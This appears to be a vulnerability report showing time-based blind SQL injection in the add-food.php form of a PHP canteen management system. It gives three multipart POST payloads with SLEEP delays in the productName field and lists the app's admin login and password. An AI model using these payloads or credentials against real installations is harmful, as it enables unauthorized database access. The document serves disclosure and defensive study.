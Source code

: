 # Canteen Management System Project by mayuri_k has SQL injection
BUG_Author: YorkLee

Login account: mayuri.infospace@gmail.com/rootadmin

vendors:https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

Vulnerability File: /youthappam/add-food.php

Vulnerability location: /youthappam/add-food.php POST form exists time-based blind injection vulnerability

Payload1: 

```
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="productName"

123' AND (SELECT 5842 FROM (SELECT(SLEEP(5)))JKeV) AND 'jYhF'='jYhF
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="quantity"

123
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="rate"

123
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="categoryName"

1
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="productStatus"

1
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="create"


------WebKitFormBoundarywm9jYBqgKtHi9E5z--
```
**note: the field "------WebKitFormBoundarywm9jYBqgKtHi9E5z" is from Content-Type that in http-header**

SELECT(SLEEP(5)) The server response time is 5 seconds

![image](pic/1.png)

Payload2: 

```
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="productName"

123' AND (SELECT 5842 FROM (SELECT(SLEEP(10)))JKeV) AND 'jYhF'='jYhF
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="quantity"

123
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="rate"

123
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="categoryName"

1
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="productStatus"

1
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="create"


------WebKitFormBoundarywm9jYBqgKtHi9E5z--
```
**note: the field "------WebKitFormBoundarywm9jYBqgKtHi9E5z" is from Content-Type that in http-header**

SELECT(SLEEP(10)) The server response time is 10 seconds

![image](pic/2.png)

Payload3: 

```
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="productName"

123' AND (SELECT 5842 FROM (SELECT(SLEEP(15)))JKeV) AND 'jYhF'='jYhF
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="quantity"

123
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="rate"

123
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="categoryName"

1
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="productStatus"

1
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="create"


------WebKitFormBoundarywm9jYBqgKtHi9E5z--
```
**note: the field "------WebKitFormBoundarywm9jYBqgKtHi9E5z" is from Content-Type that in http-header**

SELECT(SLEEP(15)) The server response time is 15 seconds

![image](pic/3.png)

